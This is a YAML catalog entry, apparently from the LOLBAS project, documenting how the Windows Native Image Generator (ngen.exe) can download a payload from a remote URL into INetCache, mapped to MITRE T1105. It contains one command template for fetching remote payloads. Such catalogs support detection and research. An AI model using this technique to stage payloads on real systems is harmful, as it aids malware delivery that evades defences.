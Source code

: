 ```yaml
---
Name: Ngen.exe
Description: Microsoft Native Image Generator.
Author: Avihay Eldad
Created: 2024-02-19
Commands:
  - Command: ngen.exe {REMOTEURL}
    Description: Downloads payload from remote server using the Microsoft Native Image Generator utility.
    Usecase: It will download a remote payload and place it in INetCache.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Windows\Microsoft.NET\Framework\v2.0.50727\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v2.0.50727\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework\v4.0.30319\ngen.exe
  - Path: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\ngen.exe
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@AvihayEldad'
---
```

